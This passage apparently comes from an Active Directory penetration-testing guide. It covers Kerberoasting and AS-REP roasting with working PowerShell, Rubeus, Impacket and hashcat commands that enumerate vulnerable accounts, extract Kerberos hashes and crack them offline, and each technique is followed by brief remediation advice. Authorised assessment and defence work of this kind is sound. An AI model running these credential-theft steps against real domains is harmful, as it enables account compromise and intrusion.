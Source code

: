 
---

## 4. Privilege Escalation Paths

### Kerberoasting

**Identify targets:**
```powershell
# PowerShell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName,MemberOf
```

**Request service tickets (for offline cracking):**
```powershell
# Using Rubeus
.\Rubeus.exe kerberoast /outfile:kerberoast_hashes.txt

# Using Invoke-Kerberoast (PowerView)
Invoke-Kerberoast -OutputFormat Hashcat | fl
```

**Crack with hashcat:**
```bash
hashcat -m 13100 kerberoast_hashes.txt wordlist.txt
```

**Remediation recommendations:**
- Use strong passwords for service accounts (25+ characters)
- Use Group Managed Service Accounts (gMSA)
- Monitor for unusual TGS requests

### AS-REP Roasting

**Identify targets:**
```powershell
# Users with "Do not require Kerberos preauthentication"
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```

**Request AS-REP hashes:**
```powershell
# Using Rubeus
.\Rubeus.exe asreproast /outfile:asrep_hashes.txt

# Using Impacket (Linux)
GetNPUsers.py domain.local/ -usersfile users.txt -dc-ip 10.0.0.1
```

**Crack with hashcat:**
```bash
hashcat -m 18200 asrep_hashes.txt wordlist.txt
```

**Remediation:**
- Enable Kerberos pre-authentication for all accounts
- Monitor for AS-REP requests without pre-auth
